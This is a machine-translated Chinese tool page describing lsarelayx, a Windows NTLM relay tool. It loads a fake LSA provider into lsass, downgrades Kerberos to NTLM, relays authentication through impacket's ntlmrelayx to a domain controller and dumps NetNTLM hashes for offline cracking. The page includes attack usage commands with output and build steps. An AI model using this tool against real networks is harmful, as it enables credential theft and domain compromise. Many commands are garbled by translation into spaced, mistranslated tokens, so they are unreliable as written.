

# Lsarelayx : NTLM 让 Windows 中继变得简单

> 原文：<https://kalilinuxtutorials.com/lsarelayx/>

Lsarelayx 是一个系统范围的 NTLM 中继工具，用于将基于 NTLM 的身份验证中继到运行它的主机。lsarelayx 将中继**任何包含 SMB 的**传入认证请求。由于 lsarelayx 与现有的应用程序身份验证流挂钩，所以在中继完成后，该工具还会尝试为原始的身份验证请求提供服务。这将防止目标应用程序/协议显示错误，并使最终用户在 lsarelayx 主机上进行身份验证时正常工作。

**特色**

*   在系统范围内中继 NTLM 连接，包括 SMB、HTTP/HTTPS、LDAP/LDAPS 或任何其他实现 Windows 身份验证 API 的第三方应用程序。
*   尽可能将传入的 Kerberos 身份验证请求降级为 NTLM。这将导致传统上尝试 Kerberos 身份验证的客户端退回到 NTLM。
*   对中继用户执行 LDAP 查询，以获取组成员信息，并为原始请求创建正确的身份验证令牌。
*   转储 NetNTLM 消息以进行脱机破解。
*   支持被动模式，不中继，只转储捕获的 NetNTLM 哈希(在此模式下没有 Kerberos 降级)。

**工作原理**

lsarelayx 由三部分组成。一个在 liblsarelay.dll 实现的假 LSA 身份验证提供程序，一个作为控制界面的用户模式控制台应用程序和一个名为 RAW 的新 ntlmrelayx 服务器模块。

**liblsarelayx.dll**

liblsarelayx.dll 是由 lsarelayx 加载的 LSA 身份验证提供者。它的主要目的是挂钩 NTLM 和协商包，以便于通过本地命名管道将身份验证请求重定向到 lsarelayx，从而中继和转储 NetNTLM 哈希。liblsarelayx 设计得尽可能简单，所有繁重的工作都由 lsarelayx 来完成

**lsarelayx.exe**

liblsarelayx.dll 是主控制台应用程序，用于加载自定义 LSA 身份验证提供程序(liblsarelayx.dll)，侦听传入的 NTLM，协商来自身份验证提供程序的令牌，并中继到 ntlmrelayx 的原始服务器模块。该工具还执行 LDAP 查询，这些查询用于捕获中继用户的组信息，并传递回 LSA 身份验证提供程序。

**原始 ntlmrelayx 模块**

impacket 的 ntlmrelayx 已经实现了大量的工作来创建中继攻击，并将在未来继续改进和添加进一步的攻击。为了利用这一点直接在 lsarelayx 中重新实现攻击，创建了一个新的 ntlmrelayx 服务器模块，称为 RAW。目前 GitHub 上有一个 PR open 实现了 RAW 服务器模块。原始服务器模块与协议无关，设计用于直接接受来自 lsarelayx 等第三方软件的原始 NTLM 消息。

在 PR 合并到主线 impacket repo 之前，您可以使用这个版本

**用法**

**主动模式**

首先启动 ntmlrelayx 原始服务器模块，监听从 lsarelayx 传递的原始 NTLM 消息。

**python 示例\ ntlmrelayx . py-SMB 2 support–no-wcf-server–no-SMB-server–no-http-server "-t " SMB://DC . victim . LAN
Impacket v 0 . 9 . 24 . de v1+20211015.125134 . c0ec 6102–Copyright 2021 secure auth Corporation
[*]协议客户端 DCSYNC 已加载..[* ]协议客户端 HTTPS 加载..
[ *]协议客户端 HTTP 已加载..[*]协议客户端 IMAP 已加载..
[ *]协议客户端 IMAPS 已加载..[* ]协议客户端 LDAP 已加载..
[ *]协议客户端 LDAPS 已加载..[*]协议客户端 MSSQL 已加载..
[ *]协议客户端 RPC 已加载..[*]协议客户端 SMB 已加载..
[ *]协议客户端 SMTP 已加载..[* ]以中继模式运行到单个主机
[ *]在端口 6666 上设置原始服务器[* ]服务器开始，等待连接**

lsarelayx 本身需要本地管理员权限才能运行。要在主动中继模式下运行，需要指定 ntlmrelayx 运行原始服务器模块的主机地址。默认端口是 6666。这可以用`**--port**`参数覆盖，但是一定要用`**--raw-port**`参数覆盖 ntlmrelayx 端的端口。

**lsarelayx.exe–主机 192.168.1.1
[+]使用 192.168.1.1:6666 中继 NTLM 连接
[=]试图加载 LSA 插件 C:\ users \ admin**trator \ Desktop \ liblsarelayx . dll

**被动模式**

您还可以通过不带任何参数地运行，以被动模式运行 lsarelayx

**lsarelayx.exe
[=]没有提供主机，切换到被动模式
[=]试图加载 LSA 插件 C:\ users \ Administrator \ Desktop \ liblsarelayx . dll**

**注意事项**

一旦 liblsarelayx DLL 被加载到 lsass 中，由于 LSA 插件工作方式的限制，现在你不能卸载它。可以关闭客户端，这将使 DLL 进入休眠状态，直到客户端再次启动，但 DLL 将一直使用，直到重新启动。

由于 LSA 插件实际上不是一个真正的插件，有计划在插件内部实现一个反射加载器，然后可以随意停止和启动，但这是另一天的练习。

在 Windows 10 和 Server 2016 上进行开发。在 Windows Server 2012 R2 上执行了一个快速测试，运行正常，但挂钩的偏移量计算在 2012 年可能会失败(这可以使用`**lookuppackage-hint=**`手动提供，如果出错，Windows 将重新启动)。没有在 Windows 10 以下的桌面端进行任何测试，也没有在 Server 2019 上进行任何测试。

**大楼**

**码头工人**

如果你安装了 docker，这是最快的选择。它利用预先安装了所有构建依赖项的`**ccob/windows_cross**`映像。

**Windows 上的 Docker(Powershell)**

**docker run–RM-it-v $ env:pwd \:/root/lsarelayx ccob/windows _ cross:latest/bin/bash-c " CD/root/lsarelayx；mkdir 构建；cd 构建；cmake-DC make _ INSTALL _ PREFIX =/root/lsarelayx/dist-DC make _ BUILD _ TYPE = MinSizeRel-DC make _ tool chain _ FILE =**../toolchain/Linux-mingw64.cmake..；–建造。–目标安装/剥离”

Linux 上的坞站

**docker run–RM-it-v $(pwd):/root/lsarelayx ccob/windows _ cross:latest/bin/bash-c " CD/root/lsarelayx；mkdir 构建；cd 构建；cmake-DC make _ INSTALL _ PREFIX =/root/lsarelayx/dist-DC make _ BUILD _ TYPE = MinSizeRel-DC make _ tool chain _ FILE =../toolchain/Linux-mingw64.cmake..；cmake–构建。–目标安装/剥离"**

**Linux**

在 Linux 上，我们利用 CMake 工具链和 MinGW 编译器。这些需要提前安装。对于托管组件，请确保 dotnet 命令行工具也是从安装的。网络核心

**mkdir BUILD
CD BUILD
cmake-DC make _ INSTALL _ PREFIX = $ PWD/dist-DC make _ BUILD _ TYPE = MinSizeRel-DC make _ tool chain _ FILE =../toolchain/Linux-mingw64.cmake..
cmake–构建。–目标安装/拆卸**

**Windows (Powershell)**

在尝试构建之前，Windows 将需要完整的 CMake、MinGW 和 Visual Studio 安装，如果没有安装开发环境，这是最痛苦的构建方式

**mkdir BUILD
CD BUILD
cmake-DC make _ INSTALL _ PREFIX = $ PWD/dist-DC make _ BUILD _ TYPE = MinSizeRel-G " MinGW Makefiles "..
cmake–构建。–目标安装/拆卸**

[**Download**](https://github.com/CCob/lsarelayx)